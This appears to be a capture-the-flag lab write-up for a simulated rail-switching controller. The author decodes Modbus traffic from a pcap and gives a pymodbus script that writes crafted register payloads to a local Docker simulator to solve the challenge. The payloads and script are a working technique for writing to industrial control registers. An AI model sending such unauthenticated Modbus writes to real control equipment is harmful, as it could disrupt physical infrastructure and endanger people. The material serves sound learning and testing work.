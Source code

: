 # Exploraion 

## train 
<img src="./pictures/20240427_050341.jpg" width="500" height="600"> 

## File
- `Dockerfile` and `insomniTrainSim` use for poc in local 
- `train_guide.txt` general infomation of rail switching
- `insomniTrains.pcap` example of interaction with insomniTrainSim

## Protocol
find in the `insomniTrains.pcap` the Protocol for the communicate to the `insomniTrainSim` is [Modbus](https://en.wikipedia.org/wiki/Modbus) 

### function use in example
- Read Holding Registers (3)
- Write Multiple Registers (16)

### Write Registers in example
I identified three paload which are four writings of three registers `1001`, `1002`, `1003`
```python
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

# POC 

## run simulation
```sh 
$ docker buildx build --tag trains .
$ docker run -it trains:latest
Simulating InsomniTrains...

1. Understand insomniTains.pcap

2. Craft your payload and send

3. Read starting at 1016 to check your solution!

Have fun!

```
you must therefore read the register `1016` and the value must only be `TRY HARDER`, at first I didn't understand that these were two `char`

## solution for the simulation
I used the python module [pymodbus](https://pymodbus.readthedocs.io/en/latest/) 
```python
from pymodbus.client import ModbusTcpClient
import time


def sendPaload(paload):
    for value in paload:
        client.write_registers(1001, value, slave=0)
        time.sleep(0.1)

    result = client.read_holding_registers(
        1016, 1, slave=0
    )  # get information from device
    print(result.registers)  # use information
    print(result.bits)  # use information
    time.sleep(0.1)


client = ModbusTcpClient("172.17.0.2")  # Create client object
client.connect()  # connect to device, reconnect automatically

client.write_registers(1001, [17201, 21292, 12336], slave=0)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
print("paload1")
sendPaload(paload1)
print("paload2")
sendPaload(paload2)
print("paload3")
sendPaload(paload3)
print("paload3")
sendPaload(paload3)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
client.close()  # Disconnect device
```
after several executions of the script I saw that the value of register `1006` had changed from `21586` to `18255`

### Identify the correct payload

the good payload is 
```python
paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

### Check if the simulation is resolved 
run `read1016.py` after `5` seconds
